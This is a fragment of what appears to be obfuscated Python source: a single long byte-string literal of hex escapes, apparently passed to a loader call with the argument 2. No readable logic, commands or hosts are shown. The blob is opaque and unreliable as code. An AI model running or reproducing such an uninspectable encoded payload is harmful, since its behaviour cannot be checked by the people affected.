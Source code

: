 be\x77\x0a\xe8\x0e\x4b\x81\x31\x17\x50\x9e\x1d\x87\x29\x82\xc2\x3f\x32\x56\x57\x76\x46\x26\x3a\x49\xfe\xe1\xec\x52\xfb\x67\xe1\x23\x49\xe2\xfc\x30\xab\xf9\xa4\x9b\xe3\xc9\xac\xbb\x10\xbb\x3f\xee\x93\x18\xc1\x8e\xe7\x4a\x70\x4a\x83\xba\x8b\xa3\x8a\x4d\x4e\x45\xdb\xee\x14\xde\xf0\xfb\xc0\x93\xca\x74\x9c\xaf\xc7\x5b\x88\x94\x5a\xb0\xb1\xb5\x93\xf0\xe6\xa5\x17\xcc\xe1\x03\xb6\xf7\x12\x8d\x85\x0b\x72\xf1\x6c\x41\xa0\x37\xcf\x6d\xe7\xbb\xa0\x60\x6c\x7a\x3e\xbf\x95\xa2\xed\x33\x67\x20\x56\x04\xfe\x8b\x5b\x91\x4b\x57\x94\x0e\x1a\xbe\xe7\x12\x60\xdc\x9d\x41\x8d\x4c\xeb\x7e\x98\xe1\x6c\x7b\x99\x96\x67\xa0\xff\x3d\xf7\x8a\x4c\x69\xd9\x47\x30\x4b\x1e\x86\xbe\x38\x95\xe5\x5e\xa0\xe6\xb6\x51\x01\xf0\xe9\xa8\x98\x4c\xcd\x99\x8c\x5f\x94\x9e\x9a\x39\x8a\xc3\xa4\xf7\xba\x60\x97\x06\x7b\x76\xa6\xb3\x56\x9b\x48\xfb\xe0\xa9\x32\x0f\x41\x6a\x09\xa0\x0f\xd8\x02\x9e\x82\xc3\x98\xab\xbf\xb4\x51\x71\x72\xf7\x7a\x39\x9a\x5a\xea\x57\x1c\x4f\xbd\x18\xef\x77\x27\xd4\x49\xac\x87\x9a\xa0\x20\x49\x6e\x63\x96\x71\x13\x56\xf3\xa5\x1e\xcf\x15\x79\xba\x66\xf2\x39\x10\xfb\x47\xa2\xde\x0f\x5e\x1e\x54\x17\x85\x7e\x8c\x69\xa0\x41\xe1\x78\x15\x43\x8e\x8d\x81\xa2\xa1\x75\xb9\x80\x6b\x25\x9f\xb9\xc3\xb4\x1b\xee\xeb\xad\x07\x16\x08\xef\x69\xea\xe3\xb6\xc4\x00\x5f\xfc\xa1\x4a\x54\x13\x06\xeb\xc4\xd0\xc8\xb0\xaa\x7a\x2b\xae\x93\x6d\x12\x36\x2b\x67\xd1\xea\x5c\x01\x00\x14\xa8\x96\x58\x85\xfa\xb9\x38\x27\xfb\xcc\x49\x67\x36\xa5\xf7\xb5\x25\xe3\x9b\xc5\xc5\xc6\x05\x56\xde\x08\xf5\xc6\xc2\xd9\x6f\x34\x43\xf5\x11\x64\x34\x35\x45\xeb\x76\xc3\x22\x41\x30\x67\xcb\x1b\xc8\x51\x2c\x09\xd1\x45\x2f\x0c\xc5\x83\xd6\xbe\xfe\x3d\xc5\x0e\x79\xfb\x21\x25\xdb\x62\xeb\xcf\x6c\xa4\x9d\x12\xc2\xf0\xd5\xb7\x3b\xde\xaa\xc2\x52\x12\xe2\x94\x8e\x6a\x59\x21\x0b\xd3\xd4\x72\xe6\x82\xcc\xf8\xf1\x10\xa4\xbd\xb7\xda\xce\x90\x6f\x08\xb8\xa4\xc5\x82\x82\xb4\x9b\xdb\x10\x3a\x3f\x29\xb1\x34\x91\xdc\x77\xe7\x25\x1f\x3e\x20\x75\x9a\x80\xfe\x6a\xfa\x80\x0b\x01\x42\x21\x8b\x15\x1a\x86\x01\x3e\xb4\xa0\xd6\xd0\x59\x95\xc5\x0c\x99\x78\x74\x7a\xe9\x7c\x3d\x8b\xe9\xf4\x0d\x60\x8e\xa8\x4f\x08\xee\x1c\x1c\x10\x27\x26\x2b\xe1\x2f\x2f\xa6\x41\x36\xf6\x5c\x21\x49\x8d\xb3\xb5\x79\x45\x5c\x90\x5a\x3c\x00\x39\xee\x90\x74\x91\x6b\x94\x4d\xcd\x8b\x97\xa5\x46\x97\xc5\xc3\xa4\x8a\x23\x8a\xda\x15\xd7\xf4\x0b\xa5\x35\x81\x4a\xdc\x3b\xd8\xd6\x0b\x94\x22\x94\x05\x8a\xdd\xb9\x8f\x76\xd0\xb8\xa1\x58\x9a\xfe\x95\x96\x2b\x9f\x0c\xde\x5e\x36\xdc\x6e\x03\x71\x24\x71\x9c\x0d\x04\x6a\x91\x8f\x0d\x8c\xd6\x5b\x1f\xda\x40\x47\x7d\x9f\x95\x60\xe6\x4f\x9e\x5d\x11\xaa\xc7\xdd\x89\x01\xd3\x5f\xf9\x8c\x7f\xeb\x89\x7d\x0b\x9f\xa7\xeb\x22\xac\xf5\xff\x1a\x1d\xf2\x81\x8a\x95\x92\xec\xa5\x25\x94\x19\x56\xe7\xb7\xa5\xeb\x72\x0d\xf3\xb8\xba\x4b\x90\x19\x26\x04\xa0\xf5\xfc\xd1\x07\x84\x45\x4c\xee\x41\x3f\xdb\xcc\x27\xc1\xe8\x30\x7a\x28\x11\xd8\x0f\x7c\x82\xe2\xf4\x7e\x6b\x98\x1c\x08\xf3\x3f\x3b\x38\xd1\x3a\x4e\x68\x3f\xd8\x91\x41\xa7\x13\xff\x64\xd3\x71\x68\x75\x98\x78\xdf\x52\x02\x85\x3c\xd7\xdb\x85\x6e\x3d\x35\x02\x9b\x4e\x13\x19\xa7\xea\x65\xde\xfb\xd3\xd4\x93\x19\x23\x9d\x76\x8b\x8b\x51\xdb\xc1\x61\x25\xa7\x53\x60\x4a\x17\x62\xbc\xc9\xce\x2e\x31\xbf\x21\x5c\xd8\xab\xa0\x00\xa5\x64\xe8\xaa\x1c', 2)